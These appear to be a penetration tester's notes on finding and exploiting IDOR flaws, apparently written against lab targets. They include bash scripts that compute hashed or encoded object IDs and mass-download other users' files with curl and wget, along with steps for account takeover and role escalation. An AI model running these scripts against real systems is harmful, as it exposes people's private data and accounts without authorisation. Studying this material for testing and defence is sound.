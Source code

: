 # Exploiting IDOR

### URL parameters and APIs&#x20;

Look for parameters that appear to be direct object references. for example:

```
?uid=1 or ?filename=file_1.pdf
```

These parameters can then be incremented or fuzzed. We should pay close attention to the page to look for changes when we change the parameters. For example, in applications that show documents or files for specific users, we may see different files if we change the parameter which would indicate we had found and IDOR vulnerability.&#x20;

### AJAX Calls

Look for unused parameters or API's in the front end code in the form of JavaScript AJAX calls. these may have been accidentally placed or left here and by modifying the HTTP request, we can possibly find an IDOR vulnerability.&#x20;

```
function changeUserPassword() {
    $.ajax({
        url:"change_password.php",
        type: "post",
        dataType: "json",
        data: {uid: user.uid, password: user.password, is_admin: is_admin},
        success:function(result){
            //
        }
    });
}
```

### Hashing/Encoding

For parameter input, the application may not always use a plain text value and instead could encode or hash the reference. If this is found the value could possibly be deoded, changed, and then re encoded to attempt to access sensitive data.&#x20;

We can also check the front end code to detect if a reference is being hashed:

```
$.ajax({
    url:"download.php",
    type: "post",
    dataType: "json",
    data: {filename: CryptoJS.MD5('file_1.pdf').toString()},
    success:function(result){
        //
    }
});
```

This can make it easy for us to calculate other reference values we would like to fuzz. If we cannot find the hash algorithm in an ajax call in the front end code, then we can use some hash identifier tools to attempt to learn the hash type.

Using this information, we can fuzz the parameter with the correct encoding.&#x20;

take for example this source code, which base64 encodes the value, then md5 hashes:

```
function downloadContract(uid) {
    $.redirect("/download.php", {
        contract: CryptoJS.MD5(btoa(uid)).toString(),
    }, "POST", "_self");
}
```

We could then craft a bash script, (or you could use burp intruder or zap) to properly modify the payload before sending it:

```
#!/bin/bash

for i in {1..20}; do
	value=$(echo -n $i | base64 -w 0 | md5sum | tr -d ' -')
	curl -sOJ -X POST -d "contract=$value" http://94.237.123.87:59911/download.php
done
```

some points about this script:

-n on the echo removes newline, which will get encoded and change the value if included&#x20;

tr -d ' -' removes the trailing ' -' from the output of the md5sum.

Make sure to review the source code and find out how the encoded value is being generated &#x20;

### User Roles

By registering multiple users and comparing their HTTP requests and object references, this may allow us to better understand how the URL parameters and object references are formatted, so we can use this to our advantage when looking for IDOR.

```
{
  "attributes" : 
    {
      "type" : "salary",
      "url" : "/services/data/salaries/users/1"
    },
  "Id" : "1",
  "Name" : "User1"

}
```

We can try to make the same API call when logged in as user2, and if the call is successful we know there is an IDOR vulnerability.&#x20;

### Mass Enumeration

We can fuzz with tools like Burp Suite, ZAP, or ffuf.&#x20;

#### Bash Script to download all files

Use the element inspector in the browser to identify the elements for the files and find a string to grep on:

```
curl -s "http://SERVER_IP:PORT/documents.php?uid=3" | grep "<li class='pure-tree_link'>"

<li class='pure-tree_link'><a href='/documents/Invoice_3_06_2020.pdf' target='_blank'>Invoice</a></li>
<li class='pure-tree_link'><a href='/documents/Report_3_01_2020.pdf' target='_blank'>Report</a></li>
```

Then we can craft a regex just to get the file names we want:&#x20;

```shell-session
curl -s "http://SERVER_IP:PORT/documents.php?uid=3" | grep -oP "\/documents.*?.pdf"

/documents/Invoice_3_06_2020.pdf
/documents/Report_3_01_2020.pdf
```

and finally use a for loop in bash to loop through user ID's and download all files with wget.&#x20;

```
#!/bin/bash

url="http://SERVER_IP:PORT"

for i in {1..10}; do
        for link in $(curl -s "$url/documents.php?uid=$i" | grep -oP "\/documents.*?.pdf"); do
                wget -q $url/$link
        done
done
```

### Insecure API's and Function Calls&#x20;

This can be determined by examining requests going out to the server that are updated on the back end. We look for REST calls to API endpoints. these typically use PUT, POST, GET, and DELETE to interact with the API endpoint, and many times use json for the request body. i.e:

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We should look for interesting parameters which may have the possibility of an IDOR vulnerability, such as uid, uuid, or role in this instance. We should also look to see if any of these values are being set on our cookie and used for access control, as those can be valuable targets. That typically means the access control is being set client side, which we can modify. We can aim to attempt the following:

1. Change our `uid` to another user's `uid`, such that we can take over their accounts
2. Change another user's details, which may allow us to perform several web attacks
3. Create new users with arbitrary details, or delete existing users
4. Change our role to a more privileged role (e.g. `admin`) to be able to perform more actions

### Chaining IDOR vulnerabilities

Its important to keep in mind that one IDOR vulnerability may lead to another. sensitive information leaked in an information disclosure IDOR might be able to be utilized to exploit insecure API's or function calls. You may be able to use this to modify user details, change a users email address to one you control and request a password reset link, place an XSS in a user detail field, etc.&#x20;
